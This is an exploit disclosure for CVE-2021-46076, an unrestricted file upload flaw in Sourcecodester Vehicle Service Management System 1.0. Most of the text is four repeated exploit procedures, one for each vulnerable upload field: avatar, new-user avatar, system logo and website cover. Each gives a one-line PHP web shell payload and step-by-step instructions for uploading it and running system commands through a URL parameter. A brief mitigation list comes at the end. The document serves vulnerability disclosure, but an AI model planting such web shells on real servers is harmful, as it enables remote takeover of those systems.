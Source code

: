 # CVE-2021-46076

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46076
### CVSS: 8.8 HIGH
### References: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-code-execution
- https://nvd.nist.gov/vuln/detail/CVE-2021-46076
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46076

### Description:
Sourcecodester Vehicle Service Management System 1.0 is vulnerable to File upload. An attacker can upload a malicious php file in multiple endpoints it leading to Code Execution.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Payload:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In My Account Section enter all the required details and browse the php file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Payload:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Create New User Page enter all the required details and browse the php file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### Impact:
An attacker can able to upload malicious php file in multiple endpoints it leads to Code Execution.

### Mitigation:
It is recommended to implement the following:
- Never accept a filename and its extension directly without having a white-list filter.
- If there is no need to have Unicode characters, it is highly recommended to only accept alpha-numeric characters and only one dot as an input for the file name and the extension.
- Limit the file size to a maximum value in order to prevent denial of service attacks.
- Uploaded directory should not have any "execute" permission.
- Don't rely on client-side validation only.
